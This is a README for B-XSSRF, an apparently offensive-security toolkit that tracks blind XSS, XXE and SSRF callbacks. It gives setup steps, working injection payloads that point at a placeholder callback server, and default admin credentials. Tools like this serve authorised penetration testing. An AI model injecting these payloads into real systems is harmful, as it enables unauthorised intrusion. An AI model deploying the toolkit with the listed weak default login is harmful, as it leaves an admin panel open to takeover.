 <h1 align="center">
  <br>
  <a href=""><img src="https://github.com/hack-parthsharma/BXSSRF/blob/master/img/icon.png" width="70" height="70" alt="B-XSSRF"></a>
  <br>
  B-XSSRF
  <br>
</h1>

<h4 align="center">Toolkit to detect and keep track on Blind XSS, XXE & SSRF</h4>

### SETUP
- Upload the files to your server.
- Create a Database and upload <b>database.sql</b> file to it.
- Change the <b>DB Credentials</b> in <b>db.php</b> file.
- Ready.

### USAGE
BLIND XSS 

```
<embed src="http://mysite.com/bxssrf/request.php">
<script src="http://mysite.com/bxssrf/request.php">
```
BLIND XXE

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://mysite.com/bxssrf/request.php"> %ext;
]>
<r></r>
```
SSRF

```
GET /testssrf.php=http://mysite.com/bxssrf/request.php

```
### DEFAULT CREDENTIALS
```
USER : admin@test.com
PASS : 123456
```
